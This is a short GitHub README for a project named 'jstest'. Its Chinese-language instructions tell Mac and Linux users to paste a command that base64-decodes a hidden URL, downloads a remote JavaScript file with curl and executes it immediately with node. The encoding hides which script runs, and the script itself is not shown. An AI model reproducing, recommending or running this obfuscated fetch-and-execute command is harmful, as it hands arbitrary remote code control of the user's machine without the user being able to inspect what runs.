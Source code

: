 # jstest

MAC用户执行：
node -e "$(curl -fsSL $(echo aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dkb25neHYvanN0ZXN0L21hc3Rlci90ZXN0LmpzCg== | base64 -D))"
Linux(centos测试通过)用户执行：
node -e "$(curl -fsSL $(echo aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3dkb25neHYvanN0ZXN0L21hc3Rlci90ZXN0LmpzCg== | base64 -d))"
